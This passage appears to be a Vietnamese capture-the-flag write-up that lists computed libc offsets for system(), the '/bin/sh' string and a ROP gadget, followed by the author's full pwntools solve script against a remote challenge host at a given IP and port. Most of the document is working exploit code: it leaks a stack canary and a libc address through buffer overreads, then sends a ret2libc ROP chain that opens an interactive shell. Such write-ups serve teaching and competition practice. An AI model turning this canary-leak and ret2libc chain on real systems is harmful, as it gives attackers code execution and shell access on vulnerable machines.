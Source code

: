 1. Địa chỉ của hàm system(): = leak_libc + 0x26fd0
2. Địa chỉ của string /bin/sh: = leak_libc + 0x1ae908
3. Địa chỉ của gadgets pop rdi, ret: = (leak_libc-0x1d90)+0x23e5

- Answer: Đây là script giải bài này của mình:

```python!=
from pwn import *
context.binary = "./chall"
#p = process()
p = remote("45.153.243.57",1337)
script = """
b*main+146
b*main+210
b*main+266
c
"""
#gdb.attach(p,script)
p.recv()
p.sendline(b'1337')
time.sleep(0.3)
p.recv()
p.sendline(cyclic(72))
time.sleep(0.3)
p.recvline()
p.recv(72)
leak_canary = u64(p.recv(8).ljust(8,b'\x00')) - 0xa
log.info("Leak canary: %s", hex(leak_canary))
print(p.recv())
p.sendline(b'1337')

p.recv()
p.sendline(b'1337')
time.sleep(0.3)

p.recv()
p.sendline(cyclic(0x58-1))
#p.interactive()
time.sleep(0.3)
p.recvline()
p.recv(87)
leak_libc = u64(p.recv(8).strip(b'\n').ljust(8,b'\x00'))
#p.interactive()
libc_base = leak_libc -0x1d90
sys_func = leak_libc + 0x26fd0
bin_sh = leak_libc + 0x1ae908
pop_rdi = libc_base + 0x23e5
log.info("Leak_libc: %s", hex(leak_libc))
p.recv()
p.sendline(b'1337')

p.recv()

p.sendline(b'1337')
payload = b'A'*72 + p64(leak_canary) + b'B'*8+ p64(pop_rdi+1) + p64(pop_rdi) + p64(bin_sh) + p64(sys_func)
p.recv()
p.sendline(payload)
p.recv()
p.sendline(b'0')
p.interactive()
```
